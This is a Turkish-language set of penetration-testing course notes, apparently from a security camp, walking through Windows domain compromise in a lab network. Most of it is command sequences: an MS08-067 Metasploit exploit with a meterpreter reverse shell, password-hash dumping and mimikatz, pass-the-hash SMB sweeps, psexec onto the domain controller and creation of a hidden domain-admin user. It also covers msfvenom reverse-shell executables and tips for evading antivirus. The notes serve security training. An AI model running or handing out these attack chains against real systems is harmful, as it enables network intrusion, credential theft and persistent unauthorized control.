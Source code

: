 # Gün 3
Bir domain controller olur ve windows clientler bu dc'ye direk olarak bağlıdır. Sistem yöneticisi tüm clientleri dc'den yönetir. Bir domain groupunda hak kontrolü olur. Bir networkde birden fazla DC olabilir. Örneğin siberkamp.local, bga.local diye 2 DC yapıp, clientler farklı domainlere bağlanır. Bİrden fazla domain varsa birden fazla DC olur. DC Domain Admin yetkisine sahiptir. En yüksek yetki Enterprise Admins'dir.(Domain Controller)

System, Local Service, Network Service. Domain Controllerda admin olan biri, DC'ye bağlı olan tüm clientlerde de admindir. (user: name\vinar -> name host nameli sunucuda vinar kullanıcısı) netuser ile Network kullanıcıları alabiliriz. Diğer userlar Local kullanıcılardır.

`net user bgasecurity`, `bgasecurity` kullanıcısı ile ilgili tüm bilgileri getirir. (Yetkileri, Password expire vs.)

Bir windows'a sızdığımızda elde etmek istediğimiz şey System grubundan bir kullanıcı yetkisidir.

Network Service User -> Read yapabilen, port dinleyen vs. üyelikler
Local Service User -> Belli yerlere Write/Read izni olan üyelikler
System User -> Herşeyi yapabilir.

## PenTest
Exploit etmek için Core Impact, Immunity Canvas, Metasploit Framework kullanabiliriz. İncelememiz gereken binlerce ip olursa, günlerce nmap yapıp elle bakmak yerine bu işlemi otomatik yapmamıza gerek var. Örneğin Nesus ile bu taramayı yapabiliriz.

4 Metaspolit modülü vardır
`Auxiliary` Yardımcı araçlar. Bilgi toplama aşaması öncesi ve sonrası işe yarıcak modüller.
`Exploit` Zayifet istismar edicek modüller.
`Payload` Exploit tetiklendikten sonra saldırganın olmasını istediğini gerçekleştiren kodlar.
`Post` Exploitation sonrası auxiliary ile birlikte kullanılabilecek modüller. Sistem hakkında daha geniş blgi edinmek vs. Windows bir sunucuya eriştikten sonra, DNS ipsini bulmak için örneğin.

Meterpreter -> Tüm işletim sistemlerinde çalışabilen, modüler yapılı üst düzey bir payloaddır.
Msfvenom -> Meterpreter'ın spesifik halleri yani meterpreterı belirli payloadları içerisinde barından ve istenen formatta çıktısını veren araç. Encoding özelliğide vardır.

Microsoft üzerinde tüm zayifetlerin kodu vardır.
MS15-034 -> Microsoftda 2015'de çıkan 34 numaralı zayifet anlamında.
Metaspolitde arama yaparken alt tire ile arama yaparız MS15_034

## Metaspolit
`search {MODUL_ADI}` -> modülü metasploit modüllerinde arar.

anonymous ftp var mı yok mu bulmak:
`nmap -n -sP 192.168.102.0/24 -oN lab.lab` 192.168.102.(0-255) arası port scan yapıp sonuçları lab.lab'a kaydeder. Buradan ipleri alarak metaspolit ile scan yapabiliriz.

```
msfconsole içinde ->
	use auxiliary/scanner/ftp/anonymous
	info # bilgileri görebilirsiniz. Metasploit exploitlerinin rankları vardır.
	show options # modülün istediği parametreleri gösterir. bazıları varsayılan olarak gelir. Zorunlu olanları required'da yes yazar.
	set RHOSTS file://home/yengas/lab.txt # File url olarak RHOSTS'u ver ve hepsine tek tek bağlanılsın. Buraya yine address range ve CIDR identifierda verilir.
	set FTPPASS anonymous # FTPPASS parametresini anonymous yap. Ama ftp scanner için yapmazsan daha iyi. Çünkü bazı FTP sunucular mail adresi istiyor.
	set VERBOSE true # Debug output ver
	run #  modülü çalıştırır. `exploit`de aynı işi yapar
```
Örneğin msfconsole sonrasında 192.168.102.221 diye bir sunucuda anonymous ftp bulduk.
```
ftp 192.168.102.221 # yazdık ve bilgilerimizi girdik, username anonymous, password mail adresi gibi.
ls # dosyaları listeledik
get welcome.png # welcome.png'yi indirdik.
```
ftp write izni açıksa ve sunucunun ftp klasörü ile webserver ile aynı klasöre bakıyorsa, buraya bir shell atıp çalıştırabiliriz.

`nmap-n -Pn -sV -v --open 192.168.102.227` 227 ipli sunucuyu taradık ve portlarına baktık. Eğer windows/linux tarzında portlar açıksa bunları farkedebiliriz. RDP olduğunu farkedelim.
`rdesktop 192.168.102.227` sunucuya uzaktan bağlanır. üyelik ister.

```
ls /usr/share/nmap/scrits | grep sbm # smb ile ilgili nmap scriptlerine bak
nmap 192.168.102.227 --script smb-vuln-ms08-067.nse # ms08-067 scripti ile portları kontrol et, bulduğumuzu varsayalım
# msfconsole içinde
	use exploit/windows/smb/ms08_067_netapi
	show tartgets # exploit targetlayabildiği makineleri göster.
	show payloads # exploitin suncuuda çalıştırabildiği payloadları gösterir. payload seçmezseniz default olarak çoğu zaman reverse tcp olur.
	set RHOST 192.168.102.227
	set payload windows/meterpreter/reverse_tcp # sunucuda çalıştırılacak payload olarak meterpreter ve bağlantı yöntem olarak reverse tcp seç
	set LHOST 192.168.102.143 # kend ip'in
	exploit
	
	# Meterpreter olunca
		getuid # hangi kullanıcı yetkisinde olduğumuzu öğren, nt authority olduğumuzu düşünelim.
		ps # processleri listele, mümkünse winlogon exe'ye migrate ol, birden fazla varsa pid en düşük olana migrate ol.
		ps -S winlo # process listde winlo ile başlayan processleri ara
		mirage 360 # 360 pidli process'e değiştir.
		pwd # sistemde neredeyiz
		lpwd # meterpreter çalıştıran yerde neredeyiz. kendi komutlarımızı başına l(for local) ekliyerek yazarız.
		screenshot # meterpreter target sistemde screenshot alıp, bize gönderir
		hashdump # sistem userlarını ve şifrelerini listeler username:userid:lmhash:nthash tarzındadır. userid 500 -> admin, 501 -> guest, userlar 1000'den başlar. hashin sonu 89c0 ise hesabın ya parolası yoktur yada disableddır.
		load mimikatz # mimikatz yükle clear text pass almak için
		wdigest # wdigest üzerinden clear text parola almayı dene.
		load incognito
		list_tokens -u
		background # meterpreter'ı backgrounda at.
	back
	sessions -l # meterpreter sessionlarımızı listeler
	use auxiliary/scanner/smb/smb_login # smb_login denemesi yapmak için kullanılan modül
	set RHOSTS 192.168.102.0/24 # Bu subnette tarama yapılacak
	set SMBUser Administrator
	set SMBPass hash # hash meterpreter oturumu ile hashdump'dan elde ettiğimiz hash.
	exploit # burada tüm ağ tarandı ve belirttiğimiz credentiallar ile giriş yapılmaya çalışıldı.
	use post/windows/gather/enum_domain
	set SESSION 5 # hangi session ile network hakkında bilgi edineceğimizi öğrenelim 
	exploit # sunucunun domainini ve dc ipsini öğrendik
	use auxiliary/scanner/smb/psexec_loggedin_users
	show options
	set SMBPASS hash
	set SMBUSER Administrator
	set SMBDOMAIN workgroup
	set RHOSTS file://home/yengas/ip.list
	exploit # psexec ile loggedin userlardan domain controllerı bulduktan sonra psexec ile kendimizi domain controllera giriş yaptıralım
	use exploit/windows/smb/psexec
	set SMBUser Administrator
	set SMBPass hash
	set rhost 192.168.102.223 # Domain controller ipsi
	exploit # Dc'ye bağlan
	# Meterpreter içinde ->
		shell # meterpreter'dan işletim sistemi shell'i spawn eder
		add_user siberKamp Siber123!! -h 192.168.102.140 # remote host'da yeni bir user oluştur. Bonus trick: şifre politikalarından dolayı doğru düzgün bir şifre girmen gerekli. Dümdüz user olur bu arkadaş. Domain adminlerden birinin rastgele delegation tokenını kullanır.
		add_localgroup_user Administrator siberKamp -h 192.168.102.240 # Domain admin yetkisi veriyoruz. Meterpreterın payloadları ikiye ayrılır. Staged ve Non-Staged. Non stagedler exploiti trigger eden meterpreterlardır. Örneğin reverse tcp için sunucuya gönderdiğimiz bize belli bir portdan bağlanan payloaddır. Daha sonra bu payload bize bağlandığında 2. bir payload (staged) payload göndeririz.
		net group "Domain Admins" /domain # Domain adminleri listele
		background # meterpreter'ı background'a atar
	sessions -l # sessionları listeler
	sessions -i 1 # 1. sessiona geçer
```
Bu işlemlerden sonra dc makneye girip kullanıcı access ayarlarından kullanıcıyı Member Of sekmesinden Domain Admins grubuna eklememiz ve bu grubu öncelikli grup olarak belirlememiz gerekir.

Meterpreter ile hashdump yapıp windows parolalarını aldıktan sonra, windows dcler ile tokenbased işlem yaptığı için, şifrenin cleartext halini almak ile uğraşmadan işlem yapabiliriz.

Meterpreter 32 bit olarak kullanırsanız, 64 bit bir processe migrate ederek 64 bit gibi çalışabilirsiniz.
mimikatz ile bazı sistemlerde cleartext parola alamıyorsunuz.

Cleartext parolalar memoryden gider, tokenlar uzun ömürlüdür. Bu tokenları almak için incognito kullanabiliriz.

Tokenlar ile pass the hash yöntemi ile diğer sunuculara zıplayabiliriz.

smb_login auxiliary kullanırken şirket policylerinden dolayı bir kaç brute force attacktan sonra ban yiyebilirsiniz. boş şifre ve aynı zaman username, pass aynı olduğu durumlarda da ban yiyebilirsiniz.

bir sunucuya giriş yaparken .\ koyarsak user başına, local değil domain'e giriş yapmayı deneriz. eğer user local ise giriş başarısız olur.

```
# Standalone ms08-067 exploit 
	nmap -n -pN -sV -p 445 -v 192.168.102.227 # 227 ipli sunucuyu scan et.
	python ms.py 192.168.102.227 2 # ms.py 08-067 exploit eden, 4444 portunda cmd bind eden bir payload upload eden scripti çalıştırır.
	telnet 192.168.102.227 4444
	# cmd içinde
		net user # lists users
		net group "Domain Admins" /domain # domain üzerindeki Domain Admins listesini DC üzerinden listelese.
```

### MSFVENOM
```
msfvenom -l # barındırılan tüm payloadları listeleyebilirsiniz.
msfvenom -p windows/meterpreter/reverse_tcp --payload # payloadı seç ve bizden istediklerini söyle
msfvenom -p windows/meterpreter/reverse_tcp -o file.exe lhost=192.168.102.221 -f exe # meterpreter reverse_tcp'yi 192.168.102.221:443 bağlanıcak şekilde exe olarak compile et

# Metasploit içinde
	use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set LHOST kendi.ip.im.iz
	set LPORT 1337
	exploit -j -z # arkada çalışıcak şekilde multi handlerı çalıştırır ve tüm exploiti yiyen makineler size bağlanabilir
	sessions -l # size bağlı exploitleri gösterir
```

### Antivirüsler
Antivirüsler 2 şekilde çalışır. İmza ve Hareket tabanlı. Bir dosya bir hedefe geldiğinde antivürüsler dosyanın sha256 imzasına bakar. Ayrıca aktif olarak inceler. Bir dosyanın port açmaması lazım. Memoryde kendini bir yere inject ediyor mu? Oluşturduğu text clear text ise imzaya bakar. 

Hardcore yöntem: 443 portundan reverse tcp yapan meterpreter exesini letsencryptden aldığın sertifikalı sunucuya bağla
Cave Injection: Programın boş olan kısmına shell komutu gömme.
`smbexec` meterpreter ve exploit/multi/handler için rc script oluşturan bir program.	

### Senaryo
- FTP ve HTTP aynı dizine bakıyor. Anonymous FTP login var. -> Sunucuya shell at, meterpreter at ve çalıştır
- Reverse TCP connection ile Low Access'de çalışıyoruz. -> Cleartext veri elde etmeye çalış ve metasploit exploitleri dene.

Halil Dalabasmaz MSSQL varsa hackleyebilirsin: exploit-db'den oku.
